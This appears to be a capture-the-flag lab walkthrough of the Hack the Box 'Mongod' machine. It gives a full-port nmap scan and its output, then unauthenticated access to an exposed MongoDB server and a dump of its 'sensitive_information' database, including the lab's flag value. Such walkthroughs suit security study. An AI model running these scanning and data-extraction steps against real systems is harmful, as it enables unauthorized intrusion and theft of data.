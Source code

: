 Hack the Box
Starting Point

Mongod

10.129.228.30

*** run nmap with -p- as first nmap scan only returned 1 open port.
*** so we scan all ports to see if any are open other than most common
nmap -p- -v -sV -sC --min-rate 1000 --max-retries 2 -oN nmap/mongod 10.129.228.30

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
|_mongodb-databases: ERROR: Script execution failed (use -d to debug)
|_mongodb-info: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


$ docker run -it --entrypoint "/bin/bash" ubuntu:20.04
Unable to find image 'ubuntu:20.04' locally                                                                                                                                                                        
20.04: Pulling from library/ubuntu                                                                                                                                                                                 
fb0a6f6b1798: Pull complete 
Digest: sha256:f8f658407c35733471596f25fdb4ed748b80e545ab57e84efbdb1dbbb01bd70e                                                                                                                                    
Status: Downloaded newer image for ubuntu:20.04                                                                                                                                                                    
root@f7e704e4b4bd:/# sudo apt update                                                                                                                                                                               
bash: sudo: command not found                                                                                                                                                                                      
root@f7e704e4b4bd:/# apt update                                                                                                
mongo mongodb://10.129.228.30                                                                                                                                                                 
MongoDB shell version v3.6.8                                                                                                                                                                                       
connecting to: mongodb://10.129.228.30                                                                                                                                                                             
Implicit session: session { "id" : UUID("6f44555e-8885-4614-813a-2c139fe5f8a2") }                                                                                                                                  
MongoDB server version: 3.6.8                                                                                                                                                                                      
Welcome to the MongoDB shell.                                                                                                                                                                                      
For interactive help, type "help".                                                                                                                                                                                 
For more comprehensive documentation, see                                                                                                                                                                          
        http://docs.mongodb.org/                                                                                                                                                                                   
Questions? Try the support group                                                                                                                                                                                   
        http://groups.google.com/group/mongodb-user                                                                                                                                                                
Server has startup warnings:                                                                                                                                                                                       
2023-06-18T02:49:51.159+0000 I STORAGE  [initandlisten]                                                                                                                                                            
2023-06-18T02:49:51.159+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine                                                            
2023-06-18T02:49:51.159+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem                                                                                        
2023-06-18T02:49:54.788+0000 I CONTROL  [initandlisten]                                                                                                                                                            
2023-06-18T02:49:54.788+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.                                                                                                
2023-06-18T02:49:54.788+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.                                                                               
2023-06-18T02:49:54.788+0000 I CONTROL  [initandlisten]                                                                                                                                                            
> show dbs;                                                                                                                                                                                                        
admin                  0.000GB                                                                                                                                                                                     
config                 0.000GB                                                                                                                                                                                     
local                  0.000GB                                                                                                                                                                                     
sensitive_information  0.000GB                                                                                                                                                                                     
users                  0.000GB                                                                                                                                                                                     
> use sensitive_information;                                                                                                                                                                                       
switched to db sensitive_information                                                                                                                                                                               
> show collections;                                                                                                                                                                                                
flag                                                                                                                                                                                                               
> db.flag.find().pretty();                                                                                                                                                                                         
{                                                                                                                                                                                                                  
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),                                                                                                                                                              
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"                                                                                                                                                                
}                                                                                                                                                                                                                  
>                                                                                                                                                                                                                                                                                                      